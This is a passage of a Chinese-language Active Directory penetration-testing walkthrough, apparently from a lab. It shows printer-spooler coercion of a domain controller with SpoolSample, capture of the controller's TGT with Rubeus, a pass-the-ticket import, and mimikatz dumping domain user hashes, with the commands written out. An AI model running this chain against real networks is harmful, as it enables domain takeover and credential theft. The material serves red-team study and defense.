 然后在 Win7 上执行如下命令使用打印机服务漏洞攻击域控 AD01，使其强制回连认证我们的 win7 主机。

```
SpoolSample.exe AD01 win7
```

如图所示，使用打印机服务漏洞攻击域控 AD01。

![截图](beb2329c263385ffcc87d59509764391.png)

如图所示，可以看到我们的 Rubeus 已经收到来自 AD01 的 base64 的 TGT 认购权证了。

![截图](ddd51eaa3991ace6a317680ee2822ee4.png)

然后我们可以直接使用 Rubeus 执行如下命令导入这个 base64 的 TGT 认购权证，就可以使用 mimikatz 导出域内所有用户 hash 了。

```
Rubeus.exe ptt /ticket:base64 格式的票据
```

如图所示，可以看到没导入票据之前，mimikatz 是无法导出域内用户 hash 的。
